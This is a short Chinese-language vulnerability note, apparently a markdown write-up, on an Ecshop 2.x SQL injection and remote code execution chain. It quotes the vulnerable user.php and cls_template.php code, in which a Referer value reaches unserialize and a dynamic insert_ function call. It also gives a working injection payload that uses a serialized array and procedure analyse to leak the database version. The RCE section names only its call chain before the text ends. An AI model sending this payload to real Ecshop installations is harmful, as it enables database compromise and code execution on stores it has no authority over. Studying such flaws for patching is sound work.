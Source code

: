 
## Ecshop 2.x 存在SQLi&&RCE

## SQli
### 利用链路：
user.php -> cls_template.php function dispaly -> cls_template.php function insert_mod -> function insert_*

### 缺陷代码：
```
user.php
num:302
if (empty($back_act))
    {
        if (empty($back_act) && isset($GLOBALS['_SERVER']['HTTP_REFERER']))
        {
            $back_act = strpos($GLOBALS['_SERVER']['HTTP_REFERER'], 'user.php') ? './index.php' : $GLOBALS['_SERVER']['HTTP_REFERER'];
        }
        ···
    }
···
    $smarty->assign('back_act', $back_act);
    $smarty->display('user_passport.dwt');
}
```

```
cls_template.php function dispaly()
···
foreach ($k AS $key => $val)
            {
                if (($key % 2) == 1)
                {
                    $k[$key] = $this->insert_mod($val);
                }
            }
            $out = implode('', $k);
···
```
```
cls_template.php
function insert_mod($name) // 处理动态内容
    {
        list($fun, $para) = explode('|', $name);
        $para = unserialize($para);
        $fun = 'insert_' . $fun;

        return $fun($para);
    }
```

### 利用

```
554fcae493e564ee0dc75bdf2ebf94caads为$_echash给定值
554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
$arr['id']带入function insert_ads($arr)中导致SQli

note:oder by limit .$arr['num'] procedure anaylse mysql < 5.6.6

```

### RCE
### 利用链路
function insert_ads() -> function fetch() ->fcuntion _eval

